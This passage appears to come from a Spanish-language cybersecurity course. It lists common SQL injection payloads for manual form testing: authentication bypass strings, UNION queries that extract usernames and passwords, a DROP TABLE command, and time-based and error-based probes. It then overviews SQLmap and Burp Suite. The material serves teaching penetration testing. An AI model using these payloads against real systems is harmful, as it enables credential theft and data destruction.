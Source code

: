 inyección SQL más comunes utilizadas por **Pentesters**  y **Bug Bounty Hunters**  (en un contexto de piratería ética) para probar manualmente formularios en busca de vulnerabilidades de inyección SQL:

- payload de inyección SQL básica: **' OR '1'='1** (se utiliza para omitir la autenticación ingresando una condición que siempre es verdadera).
- Recuperar información: **' UNION SELECT null,username,password FROM users--** (Se utiliza para extraer datos confidenciales como nombre de usuario y contraseña de la base de datos).
- Manipulación de consultas: **'; DROP TABLE users; --** (Se utiliza para provocar la eliminación de la tabla "usuarios").
- Obtener los nombres de las tablas: **' AND 1=0 UNION SELECT table_name, null FROM information_schema.tables--** (Se utiliza para extraer los nombres de las tablas en la base de datos).
- Extraer nombre de la base de datos: **' AND 1=0 UNION SELECT null, database()--** (Se utiliza para extraer el nombre de la base de datos actual).
- Uso de UNION para extraer datos: **' UNION SELECT username, password FROM users--** (Se utiliza para extraer datos confidenciales mediante una operación UNION).
- Uso de comentarios para omitir: **admin' --** (Utiliza un comentario para omitir el resto de la entrada e iniciar sesión como administrador).
- Uso de SQLi ciego basado en tiempo: **' OR IF(1=1, SLEEP(5), 0)--** (Retrasa la respuesta del servidor para confirmar la vulnerabilidad de inyección SQL).
- Uso de SQLi basado en errores: **' AND 1=CONVERT(int, (SELECT @@version))--** (fuerza un error de SQL a revelar información de la base de datos).

Todas estas cargas útiles se pueden usar (y son las más efectivas) en **formularios de inicio de sesión** vulnerables , **URL** (usadas como consultas maliciosas) y **solicitudes** (capturadas y modificadas por usted con la carga útil correcta).

### Pruebas automatizadas de inyección de SQL

Cuando se trata de seguridad de la información, herramientas como SQLmap y Burp Suite gozan de gran prestigio en el campo de las pruebas de inyección SQL.

### Descripción general de las herramientas: SQLmap y Burp Suite

Estas herramientas son ampliamente utilizadas por los profesionales de la seguridad y brindan soluciones automatizadas efectivas para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Si bien SQLmap se especializa en pruebas y automatización avanzadas, Burp Suite ofrece un ecosistema completo para analizar la seguridad de las aplicaciones. Permite a los expertos identificar, evaluar y abordar vulnerabilidades críticas, incluidas aquellas relacionadas con ataques de inyección SQL.

Ahora veamos en detalle para qué sirven estas herramientas y para qué se utilizan:

- **SQLmap** : es una valiosa herramienta de código abierto que automatiza las pruebas de inyección de SQL. Detecta vulnerabilidades de forma eficaz, extrae datos y compromete los sistemas de bases de datos utilizando una variedad de cargas útiles y técnicas. Los probadores de penetración dependen principalmente de SQLmap para evaluar la seguridad de las aplicaciones.

![SQL 10](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/sql10.png?raw=true)

- **Burp Suite**: es un conjunto completo de herramientas diseñadas para la seguridad de aplicaciones web. Entre sus características, la herramienta incluye un módulo de Seguridad de Aplicaciones Web (WAS), que ayuda a los especialistas en seguridad a identificar y abordar vulnerabilidades en sitios web. Este módulo puede detectar amenazas de seguridad comunes que incluyen, como es de esperar, ataques de inyección SQL.

